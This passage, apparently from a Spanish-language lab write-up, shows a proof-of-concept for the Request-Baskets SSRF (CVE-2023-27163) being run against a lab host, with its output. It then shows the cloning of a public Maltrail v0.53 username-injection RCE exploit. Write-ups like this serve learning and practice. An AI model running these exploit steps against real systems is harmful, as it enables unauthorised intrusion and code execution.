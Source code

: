 ```bash
❯ ./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "xaqqjw" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/xaqqjw now makes the server request to http://127.0.0.1:80.
> Authorization: Ny3T46IMJU35s4oGuVDXT4yrFdQ7h-CxrBgWGvsu0pXB
```

### Maltrail v.053 - Username Injection - Remote Code Execution \[RCE]&#x20;

Accederemos al `Basket` del `SSRF` realizado y verificaremos que se trata de un panel de inicio de sesión de `Maltrail v.053`.

{% hint style="info" %}
Maltrail es un sistema de detección de tráfico malicioso que utiliza listas (negras) disponibles públicamente que contienen rastros maliciosos y/o generalmente sospechosos, junto con rastros estáticos compilados a partir de varios informes de AV y listas personalizadas definidas por el usuario.
{% endhint %}

<figure><img src="../../.gitbook/assets/imagen (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisando posibles vulnerabilidades del software, nos encontramos con el siguiente exploit el cual se aprovecha de los campos del formulario de inicio de sesión para conseguir un `Remote Code Execution (RCE)`.

{% embed url="https://github.com/spookier/Maltrail-v0.53-Exploit" %}

```bash
❯ git clone https://github.com/spookier/Maltrail-v0.53-Exploit; cd Maltrail-v0.53-Exploit
Clonando en 'Maltrail-v0.53-Exploit'...
remote: Enumerating objects: 17, done.
remote: Counting objects: 100% (17/17), done.
remote: Compressing objects: 100% (12/12), done.
remote: Total 17 (delta 4), reused 9 (delta 3), pack-reused 0 (from 0)
Recibiendo objetos: 100% (17/17), 4.44 KiB | 2.22 MiB/s, listo.
Resolviendo deltas: 100% (4/4), listo.
```
